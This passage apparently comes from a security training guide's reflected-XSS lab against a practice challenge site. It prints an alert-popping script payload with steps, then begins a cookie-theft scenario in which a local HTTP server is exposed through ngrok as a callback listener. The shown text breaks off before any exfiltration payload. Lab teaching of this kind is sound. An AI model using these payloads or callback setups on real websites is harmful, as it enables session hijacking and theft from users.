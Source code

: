 ```

---

### 4. Third-Party Libraries

* Use safe libraries that sanitize and encode data properly
* Regularly update dependencies to avoid known vulnerabilities

---

## Lab: Reflected XSS

**URL:**
[http://challenges.defhawk.com:8070/vulnerable-xss](http://challenges.defhawk.com:8070/vulnerable-xss)

---

### Scenario 1: Popping an Alert

* **Payload:**

  ```html
  <script>alert(1);</script>
  ```

* **Steps:**

  1. Visit the lab URL
  2. Enter the above payload in the **“Enter Text”** field
  3. Click **Submit**
  4. Observe the popup alert
     
     <img width="884" alt="image" src="https://github.com/user-attachments/assets/e7ed13df-7474-4a78-abd0-acc3b039aa26" />
     <img width="883" alt="image" src="https://github.com/user-attachments/assets/0faccd48-42fe-4f7d-be00-3f085d546579" />


---

### Scenario 2: Steal Cookies Using Callback Listener

1. **Go to your Kali VM**

2. **Install Ngrok**

   * [https://ngrok.com/downloads/linux](https://ngrok.com/downloads/linux)

3. **Run a Simple HTTP Server:**

   ```bash
   python3 -m http.server 8080
   ```

4. **Expose It Using Ngrok:**
